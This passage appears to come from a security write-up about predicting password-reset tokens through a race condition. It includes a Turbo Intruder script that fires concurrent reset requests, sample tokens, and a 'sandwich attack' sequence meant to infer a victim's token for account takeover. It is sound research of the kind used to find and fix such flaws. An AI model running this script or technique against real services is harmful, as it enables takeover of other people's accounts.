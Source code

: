 I set up Turbo Intruder [^turbo-intruder] to send 5 HTTP requests within the same connection using the script below and ran the scan:

[^turbo-intruder]: [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988), portswigger.net

```py
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(5):
        engine.queue(target.req, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

![]({{page.screenshots}}turbointruder-2.png)
*Sent 5 forgot password requests down the same HTTP/2 connection concurrently*

Unfortunately, the results were different from what was expected:
```
?token=FLTUSEN P 12 Y 1 4709
?token=FLTUSEN g 12 J 7 4709
?token=FLTUSEN V 12 v 7 4709
?token=FLTUSEN e 12 p 3 4709
?token=FLTUSEN B 12 A 8 4709
```

Although all the requests arrived at the server simultaneously, the tokens generated were different. This suggests that the server likely does not support parallel token generation and multi-threading, but processes them sequentially, one at a time. This prevents us from determining the victim's exact token but not from predicting the approximate moment it is generated.

## Sandwich Attack
If we send a request targeting the victim's email between two requests targeting an email under our control, we can use the tokens assigned to the latter as a reference to infer the one assigned to the victim [^sandwich-attack].

```mermaid
sequenceDiagram
    autonumber
    par h13:03:10
        Client->>Server: attacker@email.com
        Client->>Server: victim@email.com
        Client->>Server: attacker@email.com
    end
        Note over Server: attacker token is FLTUSENa11u70310
        create participant attacker@email.com
        Server-->>attacker@email.com: /reset.html?token=FLTUSENa11u70310
        Note over Server: victim token token is ???
        create participant victim@email.com
        Server-->>victim@email.com: /reset.html?token=???
        Note over Server: attacker token is FLTUSENC11I10310
```

[^single-packet-attack]: [The single-packet attack](https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local), portswigger.net
[^time-sensitive-attacks]: [Time-sensitive attacks](https://portswigger.net/web-security/race-conditions#time-sensitive-attacks), portswigger.net
[^crunch]: [`crunch` - generate wordlists from a character set](https://manpages.ubuntu.com/manpages/focal/man1/crunch.1.html), manpages.ubuntu.com
[^sandwich-attack]: [Sandwich Attacks: From Reset Password to Account Takeover](https://appsec-labs.com/sandwich-attacks/), appsec-labs.com